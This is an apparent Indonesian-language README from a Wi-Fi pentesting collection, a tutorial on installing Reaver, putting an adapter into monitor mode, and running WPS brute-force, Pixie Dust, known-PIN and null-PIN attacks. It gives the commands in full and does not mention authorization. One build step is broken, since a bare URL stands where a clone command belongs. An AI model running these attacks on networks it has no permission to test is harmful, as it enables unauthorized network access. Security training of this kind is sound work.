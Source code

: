 # Reaver

![Reaver](https://github.com/fixploit03/Pentest-WiFi/blob/main/tools/reaver/img/reaver.jpg)

## Instalasi

Kali Linux:

1. Menggunakan packet manager (`apt`):

   ```
   sudo apt-get update
   sudo apt install reaver aircrack-ng pixiewps
   ```

2. Melalui compile dari source:
   
   ```
   sudo apt-get update
   sudo apt-get install build-essential libpcap-dev git
   https://github.com/t6x/reaver-wps-fork-t6x
   cd reaver-wps-fork-t6x
   make
   sudo make install
   ```

## Setup Adapter Wi-Fi

1. Pasang adapter Wi-Fi ke laptop/PC.
2. Pada aplikasi VirtualBox klik tab `Devices` -> `USB` -> `Jenis/merek`.
3. Pastikan checkbox nya sudah tercentang.
4. Buka terminal.
5. Ketikkan `iwconfig`, pastikan nama interface `wlan0` muncul.
6. Kalau sudah muncul, aktifkan mode monitor menggunakan:

   ```
   sudo airmon-ng check kill
   sudo airmon-ng start wlan0
   ```
7. Cek kembali menggunakan `iwconfig` apakah mode interfacenya sudah berubah menjadi mode `Monitor`.
8. Cek packet injection menggunakan:

   ```
   sudo aireplay-ng --test wlan0
   ```
   
## Penggunaan

1. Scan Wi-Fi WPS:

   ```
   sudo wash -i [interface]
   ```

2. Pilih Taraget
   Pastikan status `Lck` (Lock) tidak menunjukkan `YES`. Jika `YES`, artinya fitur WPS sedang terkunci (tidak bisa diserang).

3. Jalankan Serangan

   1. Brute Force PIN Attack:

      ```
      sudo reaver -i [interface] -b [bssid] -c [channel] -vv
      ```
   2. Pixie Dust Attack

      ```
      sudo reaver -i [interface] -b [bssid] -c [channel] -K -vv
      ```
   3. Known PIN Attack

      ```
      sudo reaver -i [interface] -b [bssid] -c [channel] -p [pin_wps] -vv
      ```
   4. Null PIN Attack:

      ```
      sudo reaver -i [interface] -b [bssid] -c [channel] -p "" -vv
      ```

## Video Demonstrasi

https://youtu.be/ftriFQwsiNU?si=Ku-meK7gUpv-RXut
